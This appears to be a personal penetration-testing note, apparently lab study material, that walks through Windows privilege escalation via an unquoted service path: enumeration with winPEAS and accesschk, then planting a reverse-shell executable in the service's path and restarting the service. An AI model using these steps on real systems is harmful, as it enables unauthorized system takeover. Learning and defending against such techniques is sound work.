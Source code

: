 1. Run winPEAS to check for service misconfigurations:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

![[Pasted image 20220112132841.png | 1000]]

3. Confirm this using sc:
```command prompt - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]


![[Pasted image 20220112132935.png | 1000]]


```command prompt - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```command prompt - windows
sc stop WiseBootAssistant
```

```command prompt - windows
sc query WiseBootAssitant
```

![[Pasted image 20220112133219.png | 1000]]

6. Start a listener on Kali, and then start the service to trigger the exploit:

![[rlwrap]]

```command prompt - windows
net start WiseBootAssitant
```

Visual example:

```command prompt - windows
.\winPEAS.exe quiet servicesinfo
```

![[Pasted image 20211229122911.png]]

```command prompt - windows
sc qc WiseBootAssistant
```

![[Pasted image 20211229122948.png]]

```command prompt - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```